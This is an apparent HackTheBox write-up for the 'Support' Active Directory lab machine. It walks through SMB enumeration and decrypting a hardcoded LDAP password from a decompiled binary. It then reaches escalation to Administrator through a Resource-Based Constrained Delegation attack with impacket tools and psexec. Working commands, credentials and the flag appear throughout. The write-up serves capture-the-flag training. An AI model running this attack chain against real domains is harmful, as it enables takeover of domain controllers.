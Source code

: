 ```yaml
---
title: "Support"
date: 2025-06-20
categories:
  - HackTheBox
  - Active Directory
tags:
  - HackTheBox
  - Active Directory
---
```


# Support

![](../assets/Pasted%20image%2020250510164728.png)
<!-- more -->

## Enumeration

```bash
$ nmap -sC -sV -Pn -T4 --min-rate 5000 -p- 10.10.11.174
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 17:48 CET
Nmap scan report for 10.10.11.174
Host is up (0.040s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-26 16:48:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 2s
| smb2-time: 
|   date: 2024-11-26T16:49:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.46 seconds
```

We have `smb` shares

```bash
$ smbclient -U "" -L //10.10.11.174   
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                            
$ smbclient -U "" //10.10.11.174/support-tools  
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 19:01:06 2022
  ..                                  D        0  Sat May 28 13:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 13:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 13:19:55 2022
  putty.exe                           A  1273576  Sat May 28 13:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 13:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 19:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 13:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 13:19:43 2022

                4026367 blocks of size 4096. 971514 blocks available
```

## Initial Access

`UserInfo.exe` seems like an internal program, let's see its interior with `dotPeek`

![](../assets/Pasted%20image%2020241126200625.png)

We have an encrypted password and an encoding key, so we have to execute that same function.

```c#
using System;
using System.Text;


class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] numArray = Convert.FromBase64String(Protected.enc_password);
        byte[] bytes = numArray;
        for (int index = 0; index < numArray.Length; ++index)
        bytes[index] = (byte) ((int) numArray[index] ^ (int) Protected.key[index % Protected.key.Length] ^ 223);
        return Encoding.Default.GetString(bytes);
    }
    static void Main()
    {
        Console.WriteLine(getPassword());
    }
}
```

Put it in a `.cs` file in a folder, install `dotnet` if not installed and

```bash
csc program.cs
dotnet run
```

```bash
C:\Users\win\Desktop>dotnet run
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

If we inspect the function where the `ldap` connection is called:

![](../assets/Pasted%20image%2020241126223240.png)

The user is `support\ldap`, so we can use `ldapsearch` to enumerate all the users

```bash
$ ldapsearch -x -H ldap://support.htb -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb" "objectClass=user"
```

Looking at all the users, we see the info field in `support`

```bash
info: Ironside47pleasure40Watchful
```

Now we have `support:Ironside47pleasure40Watchful` so let's try `evil-winrm`

```bash
*Evil-WinRM* PS C:\> whoami                                                                                           support
```

## Privilege Escalation

Enumerating with `bloodhound` we see that our user has `GenericAll` over the `dc` host so we can perform a Resource-Based Constrained Delegation as seen here: [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

![](../assets/Pasted%20image%2020241127164113.png)


```bash
$ impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass buenas123@ -dc-ip 10.10.11.174 support.htb/support:'Ironside47pleasure40Watchful'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account evilcomputer$ with password buenas123@.


$ python rbcd.py -f evilcomputer -t dc -dc-ip 10.10.11.174 support\\support:Ironside47pleasure40Watchful 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.10.11.174
[*] Using support\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `evilcomputer` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified succesfully!
[*] evilcomputer$ can now impersonate users on dc$ via S4U2Proxy


$ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/evilcomputer$:buenas123@
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

Using the ticket, log in to the machine via `psexec`.

```bash
$ KRB5CCNAME=/home/kali/support/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache  impacket-psexec -k dc.support.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file aqaqcjvd.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service DCKN on dc.support.htb.....
[*] Starting service DCKN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.
```

## Post Exploitation

Get the flag

```shell
C:\Windows\system32> type C:\Users\Administrator\desktop\root.txt
833c01f16a54a30451cbf1250366ba41
```
